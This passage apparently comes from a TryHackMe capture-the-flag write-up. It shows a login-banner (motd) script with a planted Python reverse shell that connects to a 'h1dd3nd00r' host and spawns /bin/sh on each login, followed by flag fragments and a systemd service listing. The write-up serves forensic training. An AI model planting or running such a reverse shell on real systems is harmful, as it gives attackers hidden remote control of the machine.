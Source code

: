```bash
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release

if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then
	# Fall back to using the very slow lsb_release utility
	DISTRIB_DESCRIPTION=$(lsb_release -s -d)
fi

python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("4c61737420706172743a206430776e7d0.h1dd3nd00r.n3t",)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);' 2>/dev/null

printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"
root@tryhackme:/etc/update-motd.d# 
```


<img width="1346" height="253" alt="image" src="https://github.com/user-attachments/assets/0505d926-f4b0-4cbc-a88c-ed38574ce560" />

```bash
THM{y0
u_g0t_
3v3ryt

d0wn}
```

```bash
root@tryhackme:~# systemctl list-unit-files --type=service | grep enabled
accounts-daemon.service                        enabled         enabled
acpid.service                                  disabled        enabled
alsa-utils.service                             masked          enabled
anacron.service                                enabled         enabled
apparmor.service                               enabled         enabled
apport.service                                 enabled         enabled
avahi-daemon.service                           enabled         enabled
blk-availability.service                       enabled         enabled
blueman-mechanism.service                      enabled         enabled
bluetooth.service                              enabled         enabled
brltty.service                                 disabled        enabled
cipher.service                                 enabled         enabled
cloud-config.service                           enabled         enabled
cloud-final.service                            enabled         enabled
cloud-init-local.service                       enabled         enabled
cloud-init.service                             enabled         enabled
console-setup.service                          enabled         enabled
cron.service                                   enabled         enabled
cryptdisks-early.service                       masked          enabled
...
```
